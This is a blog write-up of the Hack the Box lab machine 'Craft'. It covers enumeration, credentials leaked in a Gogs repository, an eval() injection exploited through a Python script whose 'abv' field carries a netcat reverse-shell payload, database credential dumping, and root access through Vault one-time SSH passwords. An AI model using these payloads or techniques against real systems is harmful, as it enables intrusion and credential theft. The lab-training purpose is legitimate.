 +++
author = "Nick"
categories = ["api", "CTF", "enumeration", "netcat", "python", "web services", "custom exploit", "Gogs"]
date = 2020-01-04T16:39:23Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2019/08/info.png"
slug = "hack-the-box-craft"
summary = "Welcome back friends! Today we'll be doing the brand new box, Craft. This will be the first time I do a box as it's released and hope to continue this trend! So lets jump in!"
tags = ["api", "CTF", "enumeration", "netcat", "python", "web services", "custom exploit", "Gogs"]
title = "Hack the Box - Craft"

+++


Welcome back friends! Today we'll be doing the brand new box, Craft. This will be the first time I do a box as it's released and hope to continue this trend! So lets jump in!

Update: I should probably buy the Pro subscription from HtB. Doing a new box as it's released proved challenging. Often unresponsive and rebooting frequently. Lessons learned I guess.

As always, we kick it off with a standard nmap scan.

```bash
nmap -sC -sV -oA Craft/scan 10.10.10.110
```

We see a pretty limited amount of results.

```
Starting Nmap 7.70 ( https://nmap.org ) at 2019-07-15 16:11 EDT
Nmap scan report for 10.10.10.110
Host is up (0.52s latency).
Not shown: 998 closed ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.4p1 Debian 10+deb9u5 (protocol 2.0)
| ssh-hostkey: 
|   2048 bd:e7:6c:22:81:7a:db:3e:c0:f0:73:1d:f3:af:77:65 (RSA)
|   256 82:b5:f9:d1:95:3b:6d:80:0f:35:91:86:2d:b3:d7:66 (ECDSA)
|_  256 28:3b:26:18:ec:df:b3:36:85:9c:27:54:8d:8c:e1:33 (ED25519)
443/tcp open  ssl/http nginx 1.15.8
|_http-server-header: nginx/1.15.8
|_http-title: About
| ssl-cert: Subject: commonName=craft.htb/organizationName=Craft/stateOrProvinceName=NY/countryName=US
| Not valid before: 2019-02-06T02:25:47
|_Not valid after:  2020-06-20T02:25:47
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
| tls-nextprotoneg: 
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.08 seconds
```

Seems pretty low, lets try another swing at the nmap, but all ports.

{{< figure src="__GHOST_URL__/content/images/2019/07/image-21.png" >}}

We see that port 6022 is open. I telnet into the port and get back what looks like some SSH responses.

{{< figure src="__GHOST_URL__/content/images/2019/07/image-22.png" >}}

Looks like its using SSH-go as the server on this port. When we try to ssh into that port, we are prompted for a SSH key. We'll come back to this it seems.

We see the site being hosted on the box is talking about an API as well as a link to the API and its git repository, which is also locally hosted. Maybe some API enumeration? The API page has options to execute the API command and return the result back, we might be able to leverage this later on to get it to run something we want. So lets add some hostname entries so we can resolve better. We'll add api.craft.htb, craft.htb and gogs.craft.htb. Now that we can resolve those, lets check it our a bit more in depth.

The first stop will be to take a look at the git repository. In this case we're going to look through the commit history to see what we can find. We'll want to enumerate all of our domains. A run of Dirbuster against gogs.craft.htb and we see our users. If we dig though the personal history, we see that Dinesh has left us a nice script, with authorization inside it!

{{< figure src="__GHOST_URL__/content/images/2019/07/image-93.png" >}}

If we take this script and recreate it, we get a valid authentication using those credentials. We can also test it against the API page to validate and download the token. Looks like we can use these credentials to authenticate to gogs.craft.htb as well.

When we are sifting though the notes we see 1 issue. This shows a possible problem with the ABV value.

{{< figure src="__GHOST_URL__/content/images/2019/07/image-94.png" >}}

When we look at the changes made, we see it's using the function eval(). This is might be the way in. We can leverage this function to call remote code! More on why eval() is bad, here and here.

So what we'll do is modify the script Dinesh made for testing. We'll simply pass it `__import__('os').system('nc 10.10.10.15.248 1337 -e /bin/sh')` and get a netcat shell back and see what we can find. Here's what our modified code looks like:

```python
#!/usr/bin/env python

import os
import requests
import json

response = requests.get('https://api.craft.htb/api/auth/login',  auth=('dinesh', '4aUh0A8PbVJxgd'), verify=False)
json_response = json.loads(response.text)
token =  json_response['token']
headers = { 'X-Craft-API-Token': token, 'Content-Type': 'application/json'  }

# make sure token is valid
response = requests.get('https://api.craft.htb/api/auth/check', headers=headers, verify=False)
print(response.text)

# create a sample brew with bogus ABV... should fail.
print("Create bogus ABV brew")
brew_dict = {}
brew_dict['abv'] = '15'
brew_dict['name'] = 'bullshit'
brew_dict['brewer'] = 'bullshit'
brew_dict['style'] = 'bullshit'
json_data = json.dumps(brew_dict)
response = requests.post('https://api.craft.htb/api/brew/', headers=headers, data=json_data, verify=False)
print(response.text)

# create a sample brew with real ABV... should succeed.
print("Create real ABV brew")
brew_dict = {}
brew_dict['abv'] = '__import__(\'os\').system(\'nc 10.10.15.248 1337 -e \/bin\/sh\')'
brew_dict['name'] = 'bullshit'
brew_dict['brewer'] = 'bullshit'
brew_dict['style'] = 'Junk'
json_data = json.dumps(brew_dict)
response = requests.post('https://api.craft.htb/api/brew/', headers=headers, data=json_data, verify=False)
print(response.text)
```

After we run our codewe get a netcat connection!

{{< figure src="__GHOST_URL__/content/images/2019/07/image-95.png" >}}

Well, this sends us to /opt/app as root, but when we look around, there's nothing here. It seems we're in a docker container. So in this case, we're going to head bad to where we landed and see whats here. When we run dbtest.py, we get back what the script is calling, so maybe we should try and modify it so we can dump some info.

Here's what our modified code looks like:
```python
#!/usr/bin/env python

import pymysql
from craft_api import settings

# test connection to mysql database
print("Host: "+ settings.MYSQL_DATABASE_HOST)
print("User: "+ settings.MYSQL_DATABASE_USER)
print("Password: "+ settings.MYSQL_DATABASE_PASSWORD)
print("Database: "+ settings.MYSQL_DATABASE_DB)
connection = pymysql.connect(host=settings.MYSQL_DATABASE_HOST,
                                 user=settings.MYSQL_DATABASE_USER,
                                 password=settings.MYSQL_DATABASE_PASSWORD,
                                 db=settings.MYSQL_DATABASE_DB,
                                 cursorclass=pymysql.cursors.DictCursor)

try: 
    with connection.cursor() as cursor:
        sql = "select * from user"
        cursor.execute(sql)
        result = cursor.fetchall()
        print(result)

finally:
    connection.close()
```

After we run our script, we get the following back:

{{< figure src="__GHOST_URL__/content/images/2019/07/image-96.png" >}}

We now have three login credentials, lets see if any of these work on SSH. No dice. Lets try to log into Gogs with these. Turns our Gilfoyle's works. Now we can browse around what Gilfoyle has been doing. He has another repository as well. On inspection it seems to be the docker container that we are hosting the service in. When we check out the changes, we see a private key. We'll save this file and use it to authenticate via SSH.

{{< figure src="__GHOST_URL__/content/images/2019/07/image-97.png" >}}

Great we are in. Now we can snag our user.txt and look for a way to pivot to root. Once we've explored the system, we notice that there is a program called [Vault](https://www.vaultproject.io/docs/install/index.html). I've never worked with this application before but gaining root was actually very easy once I knew what I was looking for and how Vault functions. After reading documentation for a few hours and trying many MANY commands (and failing) to gather what info I could on the structure that was setup, I had to take a step back and rethink the entry points. Then I realized that Vault has documents on SSH and keysigning. Lucky for us [Vault has a document](https://www.vaultproject.io/docs/secrets/ssh/one-time-ssh-passwords.html) on how to do just that! We follow that document through and....

{{< figure src="__GHOST_URL__/content/images/2019/08/image.png" >}}

We get in using OTP. To the flag!

{{< figure src="__GHOST_URL__/content/images/2019/08/image-1.png" >}}

We did it, both flags captured. This was a fun and new box for me. I learned a lot on some software I've never used before.

Hopefully something was learned. If you found this write-up helpful, consider sending some respect my way: [Lovecore's HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).

